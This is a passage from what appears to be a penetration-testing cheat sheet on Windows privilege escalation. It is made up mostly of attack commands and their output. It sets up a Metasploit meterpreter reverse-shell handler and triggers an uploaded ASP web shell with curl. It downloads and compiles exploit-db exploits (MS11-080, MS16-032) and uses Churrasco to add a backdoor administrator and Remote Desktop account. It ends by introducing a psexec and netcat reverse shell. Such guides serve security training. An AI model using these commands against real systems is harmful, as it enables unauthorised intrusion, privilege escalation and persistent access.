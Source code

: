          msf > use exploit/multi/handler
         msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
         msf exploit(handler) > set LHOST 1.2.3.4
         msf exploit(handler) > set LPORT 80
         msf exploit(handler) > set ExitOnSession false
         msf exploit(handler) > exploit -j

         curl http://$ip/aspshell3.asp;.txt

         [*] Started reverse TCP handler on 1.2.3.4:443 
         [*] Starting the payload handler...
         [*] Sending stage (957487 bytes) to 1.2.3.5
         [*] Meterpreter session 1 opened (1.2.3.4:443 -> 1.2.3.5:1063) at 2017-09-25 13:10:55 -0700

-   Windows privledge escalation exploits are often written in Python. So, it is necessary to compile the using pyinstaller.py into an executable and upload them to the remote server.

         pip install pyinstaller
         wget -O exploit.py http://www.exploit-db.com/download/31853  
         python pyinstaller.py --onefile exploit.py

-   Windows Server 2003 and IIS 6.0 privledge escalation using impersonation: 

      https://www.exploit-db.com/exploits/6705/
   
      https://github.com/Re4son/Churrasco
      
         c:\Inetpub>churrasco
         churrasco
         /churrasco/-->Usage: Churrasco.exe [-d] "command to run"

         c:\Inetpub>churrasco -d "net user /add <username> <password>"
         c:\Inetpub>churrasco -d "net localgroup administrators <username> /add"
         c:\Inetpub>churrasco -d "NET LOCALGROUP "Remote Desktop Users" <username> /ADD"

-   Windows MS11-080 - http://www.exploit-db.com/exploits/18176/  
    
          python pyinstaller.py --onefile ms11-080.py  
          mx11-080.exe -O XP
    
-   Powershell Exploits - You may find that some Windows privledge escalation exploits are written in Powershell. You may not have an interactive shell that allows you to enter the powershell prompt.  Once the powershell script is uploaded to the server, here is a quick one liner to run a powershell command from a basic (cmd.exe) shell:

      MS16-032 https://www.exploit-db.com/exploits/39719/
      
      `powershell -ExecutionPolicy ByPass -command "& { . C:\Users\Public\Invoke-MS16-032.ps1; Invoke-MS16-032 }"`
      
    
-   Powershell Priv Escalation Tools
    https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc

-   Windows Run As - Switching users in linux is trival with the `SU` command.  However, an equivalent command does not exist in Windows.  Here are 3 ways to run a command as a different user in Windows.

      -   Sysinternals psexec is a handy tool for running a command on a remote or local server as a specific user, given you have thier username and password. The following example creates a reverse shell from a windows server to our Kali box using netcat for Windows and Psexec (on a 64 bit system).
